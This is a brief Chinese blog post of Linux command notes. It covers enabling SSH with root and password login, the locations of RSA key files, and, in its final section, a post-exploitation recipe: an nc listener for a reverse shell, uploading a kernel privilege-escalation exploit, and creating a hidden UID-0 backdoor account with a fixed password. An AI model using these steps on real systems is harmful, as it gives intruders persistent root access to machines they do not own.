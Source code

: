 ```yaml
---
layout: post
title: "Linux 相关命令"
date: 2017-2-14

---
```

##SSH开启&开机自启动##

1.修改ssh_config文件。命令：```vim /etc/ssh/sshd_config```

2.将```#PasswordAuthentication no```的注释去掉，并且将```NO```修改为```YES```  //我的kali中默认	是yes

3.将```#PermitRootLogin yes```的注释去掉 //我的kali中默认去掉了注释

4.启动SSH服务，命令为：```/etc/init.d/ssh start``` // 或者service ssh start

5.验证SSH服务状态，命令为：```/etc/init.d/ssh status```

6.添加开机自启动 ```update-rc.d ssh enable``` 

   关闭则为：```update-rc.d ssh disabled```


---
##Linux RSA公私钥认证##

路径 ```/root/.ssh/authorized_keys```

```authorized_keys```  ```id_rsa```

---

##Linux下nc反弹&提权##
服务器上面执行 ```NC -vv -l -p （Port）```

上传exp ```2.6.32.exp```

用```ls -l``` 文件名 看权限 是否可执行 如果不能执行 可以```chmod -R 777 filename``` 给予执行权限

```useradd -u 0 -o -g root -G root xftp```

```echo "Admini111" | passwd --stdin xftp```

![image]（file:///images/nsec.png）

